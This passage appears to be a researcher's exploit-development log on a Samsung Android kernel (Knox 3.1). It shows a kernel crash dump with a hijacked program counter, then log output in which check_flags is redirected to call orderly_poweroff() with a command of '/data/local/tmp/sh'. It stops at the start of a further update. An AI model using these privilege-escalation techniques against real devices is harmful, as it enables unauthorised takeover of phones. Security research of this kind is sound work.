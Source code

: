 ```
<4>[  213.797641]  [6:           main:13743] PC is at 0xff
<4>[  213.797657]  [6:           main:13743] LR is at SyS_fcntl+0x240/0x4d4
<4>[  213.797667]  [6:           main:13743] pc : [<00000000000000ff>] lr : [<ffffffc000245e00>] pstate: 20000145
<4>[  213.797676]  [6:           main:13743] sp : ffffffc00db17e60
<4>[  213.797684]  [6:           main:13743] x29: ffffffc00db17e60 x28: ffffffc00db14000 
<4>[  213.797696]  [6:           main:13743] x27: ffffffc000d62000 x26: 0000000000000019 
<4>[  213.797707]  [6:           main:13743] x25: 0000000000000119 x24: 0000000000000003 
<4>[  213.797717]  [6:           main:13743] x23: ffffffc806d3d900 x22: 0000000000020000 
<4>[  213.797727]  [6:           main:13743] x21: 0000000000000004 x20: ffffffc806d3d900 
<4>[  213.797736]  [6:           main:13743] x19: ffffffc86ecd4510 x18: 00000000000221fe 
<4>[  213.797746]  [6:           main:13743] x17: 000000713c5c2970 x16: ffffffc000245bc0 
<4>[  213.797755]  [6:           main:13743] x15: 0000000000000000 x14: 0fffffffffffffff 
<4>[  213.797764]  [6:           main:13743] x13: 0000000000000000 x12: 0101010101010101 
<4>[  213.797773]  [6:           main:13743] x11: 7f7f7f7f7f7f7f7f x10: fefefefefefefeff 
<4>[  213.797782]  [6:           main:13743] x9 : 7f7f7f7fffffffff x8 : 6666203a79646461 
<4>[  213.797791]  [6:           main:13743] x7 : 207367616c665f6b x6 : ffffffc0023f8d54 
<4>[  213.797801]  [6:           main:13743] x5 : 0000000000000140 x4 : 0000000000000000 
<4>[  213.797810]  [6:           main:13743] x3 : 0000000000000007 x2 : ffffffc00db14000 
<4>[  213.797820]  [6:           main:13743] x1 : 00000000000000ff x0 : 0000000000020000 
<4>[  213.797830]  [6:           main:13743] 
<4>[  213.797830]  [6:           main:13743] LR: 0xffffffc000245d00:
```

To be continued ....

## Update 6

Yep, was able to modify check_falgs to call orderly_poweroff() with my paremeters as per BH Keen Security Lab paper mentioned above.

```
hero2lte:/data/local/tmp # uname -a
Linux localhost 3.18.91.marcinguy-lab #8 SMP PREEMPT Sat Nov 16 15:12:04 CET 2019 aarch64
```


```
[  305.681937] cmd ffffffc00219a510
[  305.681946] cmd /sbin/poweroff
```

```
[  408.864455] cmd ffffffc00219a510
[  408.864463] cmd /data/local/tmp/sh
```

Some additonal steps have to be done. Maybe when I get time, I work on it futher.

Anyway, surprised that this still works on Knox 3.1 ... and maybe newer also

## Update 7

This could save you tons of time:
